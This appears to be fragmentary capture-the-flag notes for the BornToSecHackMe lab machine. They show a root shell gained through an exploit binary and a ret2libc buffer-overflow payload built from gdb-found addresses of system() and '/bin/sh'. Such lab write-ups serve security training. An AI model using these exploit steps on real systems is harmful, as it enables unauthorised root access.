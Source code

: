 laurie@BornToSecHackMe:~$ ./exploit
[...]
Password:
root

firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)

####### PUT TO README1 AFTER ########

# r $(python -c 'print "A"*139')

(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr

(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58

$(python -c 'print "A"*140+"\x60\xb0\xe6\xb7"+"\xde\xad\xbe\xef"+"\x58\xcc\xf8\xb7"')

# Final command
./exploit_me $(python -c 'print "A"*140+"\x60\xb0\xe6\xb7"+"\xde\xad\xbe\xef"+"\x58\xcc\xf8\xb7"')
